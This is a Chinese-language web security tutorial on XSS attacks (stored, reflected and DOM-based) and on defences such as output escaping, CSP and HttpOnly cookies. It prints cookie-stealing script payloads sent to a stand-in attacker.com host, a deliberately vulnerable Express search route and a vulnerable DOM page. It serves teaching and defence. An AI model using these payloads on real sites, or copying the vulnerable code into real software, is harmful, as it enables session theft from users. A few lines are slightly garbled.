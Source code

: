 # Web 攻击方式

[[toc]]

## 什么是 Web 攻击

Web 攻击(WebAttack)是针对用户上网行为或网站服务器等设备进行攻击的行为,如植入恶意代码，修改网站权限，获取网站用户隐私信息等等。 Web 应用程序的安全性是任何基于 Web 业务的重要组成部分，确保 Web 应用程序安全十分重要，即使是代码中很小的 bug 也有可能导致隐私信息被泄露。站点安全就是为保护站点不受未授权的访问、使用、修改和破坏而采取的行为或实践我们常见的 Web 攻击方式有

- `XSS(Cross Site Scripting)`跨站脚本攻击
- `CSRF(Cross--site request forgery)`跨站请求伪造
- `SQL` 注入攻击

## XSS 跨站脚本攻击

### 什么是 XSS

定义：XSS 跨站脚本攻击，允许攻击者将恶意代码植入到提供给其它用户使用的页面中。XSS 涉及到三方，即攻击者、客户端与 Web 应用
目的：XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互

### 存储型 XSS

存储型 XSS 是指攻击者将恶意代码存储在目标网站的数据库中，当其他用户访问包含这些内容的页面时，恶意代码从数据库中加载并执行。
::: tip 存储型 XSS 的本质
存储型 XSS 的本质就是利用了浏览器会默认执行脚本以及默认加载一些资源（无论是否跨站）的特性 y 的 cookie）

:::

#### 执行原理

- 攻击者将恶意脚本提交到目标网站（如通过评论、留言等表单）
- 服务器将恶意脚本存储在数据库中
- 当其他用户访问包含这些内容的页面时，恶意脚本从服务器加载并执行
- 受害者的浏览器在不知情的情况下执行了恶意脚本

#### 攻击案例

1. 攻击者在评论框中输入：

```html
<script>
  var img = new Image();
  img.src = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>
```

2. 评论被提交并永久存储在论坛数据库中
3. 当其他用户查看包含此评论的页面时，脚本自动执行
4. 用户的会话 cookie 被发送到攻击者的服务器

### 反射型 XSS

反射型 XSS（Reflected XSS）是指恶意脚本作为请求的一部分被发送到服务器，然后服务器在响应中原封不动地"反射"回这些脚本，最终在用户浏览器中执行。

主要特点：

- 非持久性 ​：恶意脚本不会存储在服务器上
- 即时触发 ​：需要诱导用户点击特定链接
- 传播途径 ​：通常通过钓鱼邮件、恶意网站或社交工程传播

#### 执行原理

1. 攻击者构造包含恶意脚本的特殊 URL
2. 通过社交工程诱导受害者点击该 URL
3. 服务器接收请求后，未经验证直接将恶意参数返回
4. 受害者的浏览器解析响应并执行恶意脚本

#### 攻击案例

1. 攻击者构造 URL：

```bash
http://example.com/search?query=<script>new Image().src='http://attacker.com/steal.php?cookie='+document.cookie;</script>
```

2. 受害者点击该链接
3. 服务器返回包含恶意脚本的页面

```js
const express = require('express');
const app = express();

// 有XSS漏洞的搜索路由
app.get('/search', (req, res) => {
  const query = req.query.q || '';
  res.send(`
        <html>
        <body>
            <h1>搜索结果</h1>
            <p>您搜索的是: ${query}</p>
        </body>
        </html>
    `);
});

app.listen(3000, () => {
  console.log('服务器运行在 http://localhost:3000');
});
```

4. 受害者的浏览器执行恶意脚本

最终页面接受到响应的数据然后执行图片加载获取 cookie，所以可以利用此漏洞获取用户的 cookie

### DOM 型 XSS

#### 执行原理

#### 攻击案例

1. 漏洞页面代码 (vulnerable.html)

```html
<!DOCTYPE html>
<html>
  <head>
    <title>DOM XSS 演示</title>
    <script>
      window.onload = function () {
        // 从URL片段中获取内容并直接插入DOM
        const message = location.hash.substring(1);
        document.getElementById('message').innerHTML = decodeURIComponent(message);
      };
    </script>
  </head>
  <body>
    <h1>欢迎页面</h1>
    <div id="message"></div>
  </body>
</html>
```

2. 攻击者构造 URL：

```bash
vulnerable.html#<img src=x onerror="alert('XSS攻击成功!')">
```

### XSSf 防范措施

无论什么样的 XSS 攻击其目的都在于希望盗取用户的敏感信息，攻击者都利用了下面几个性质

1. 网站会默认执行脚本
2. 网站会默认加载一些资源（无论是否跨站）

所以对 XSS 的防范主要有几个方面

1. 输入输出过滤，过滤掉恶意脚本
2. 内容安全策略，通过 csp 设置白名单，限制加载的资源来源
3. HttpOnly Cookie，设置 cookie 属性，防止 JavaScript 读取

#### 输入过滤

对用户输入进行过滤，过滤掉所有可能导致 XSS 攻击的字符，如 `<`、`>`、`"`、`'`、`&` 等。

```js
// PHP示例
htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
```

#### 输出编码

```js
// JavaScript示例
function safeOutput(str) {
  return str.replace(
    /[&<>'"]/g,
    char =>
      ({
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        "'": '&#39;',
        '"': '&quot;',
      }[char]),
  );
}
```

#### 内容安全策略(CSP)​​：

- `default-src 'self'`：默认只允许加载当前域名下的资源
- `script-src` https://trusted.cdn.com：脚本只能从指定CDN加载
- `img-src` https://trusted.cdn.com：图片只能从指定CDN加载
- `style-src` https://trusted.cdn.com：样式表只能从指定CDN加载
- `connect-src` https://api.example.com：只允许从指定 API 服务器进行连接
- `font-src` https://trusted.cdn.com：字体只能从指定CDN加载

HTML meta 标签设置：

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'" />
```

#### `​HttpOnly Cookie`​：设置 Cookie 的属性

- ​ 禁止 JavaScript 读取 ​：document.cookie 将看不到这个 Cookie
- ​ 仅限 HTTP 请求携带 ​：浏览器自动在请求头中加入，但脚本无法触碰

::: tip token
所以 JWT 不要适用 localStorage 来进行存储，包装成 HttpOnly 的 Cookie 比较好
:::
